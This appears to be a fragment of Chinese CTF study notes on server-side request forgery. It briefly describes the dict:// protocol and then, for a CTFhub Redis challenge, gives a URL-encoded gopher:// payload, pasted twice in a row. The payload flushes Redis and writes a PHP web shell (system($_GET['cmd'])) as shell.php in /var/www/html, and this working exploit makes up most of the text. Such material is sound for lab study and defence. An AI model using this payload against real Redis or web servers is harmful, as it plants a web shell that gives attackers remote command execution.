    词典网络协议

   [SSRF漏洞中使用到的其他协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/后接TCP/IP数据量
   
   向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增加了便利
   dict协议执行命令要一条一条执行
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/1689445890678-9ea0f307-73ec-46e3-ae86-8755a0807333.png)

```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
